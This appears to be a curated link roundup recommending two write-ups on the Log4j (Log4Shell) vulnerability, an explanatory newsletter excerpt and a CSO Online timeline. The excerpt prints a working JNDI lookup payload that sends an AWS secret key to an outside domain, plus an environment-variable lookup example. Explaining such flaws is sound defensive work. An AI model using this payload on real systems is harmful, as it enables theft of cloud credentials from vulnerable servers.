 ## [News & Analysis | No. 311 - Daniel Miessler](https://danielmiessler.com/podcast/news-analysis-no-311/)

[https://danielmiessler.com/podcast/news-analysis-no-311/](https://danielmiessler.com/podcast/news-analysis-no-311/)

> What Happened: A 0-day exploit was released for log4j—a Java-based logging utility that’s part of the Apache Logging Services project. It is used by millions of systems worldwide to process logs. 
> 
> Impact: People are comparing this to Heartbleed, but it’s much worse in a number of ways. While Heartbleed affected all TLS implementations, and this one only affects systems that use log4j, this issue produces direct and immediate harm in the form of password/key extractions and shells.
> 
> This vulnerability will be with us for years because malicious payloads and vulnerable systems can sit dormant for any amount of time. At any moment they can come back alive and process a malicious payload that results in compromise.
> 
> How it Works: The vulnerability is due to insecure “lookup” functionality within log4j that executes user-provided content as code, also known as RCE. So if you provide the input  `${env:PWD}`, it’ll write the PWD environment variable to the log. It gets much worse from there, including the egressing of data out of the affected system and—most importantly—spawning a shell on the affected system.
> 
> Example: Here’s an example from @dildog of extracting AWS Keys and listening for incoming requests. 
> 
> ${jndi:ldap://${env:AWS_SECRET_ACCESS_KEY}.mydogsbutt.com}
> 


Daniel Miessler's newsletter is generally very good anyway, but this writeup of the log4j vulnerability, only 4 days into it, was readable, understandable and actionable.

Worth a read, along with of course, all of the other news areas that he has covered which you might find interesting.



## [The Apache Log4j vulnerabilities: A timeline | CSO Online](https://www.csoonline.com/article/3645431/the-apache-log4j-vulnerabilities-a-timeline.html)

[https://www.csoonline.com/article/3645431/the-apache-log4j-vulnerabilities-a-timeline.html](https://www.csoonline.com/article/3645431/the-apache-log4j-vulnerabilities-a-timeline.html)

> The Apache Log4j vulnerability has made global headlines since it was discovered in early December. The flaw has impacted vast numbers of organizations around the world as security teams have scrambled to mitigate the associated risks. Here is a timeline of the key events surrounding the Log4j vulnerability as they have unfolded.


This is a useful timeline for those of you, for whom December blurred into one great long incident response activity.

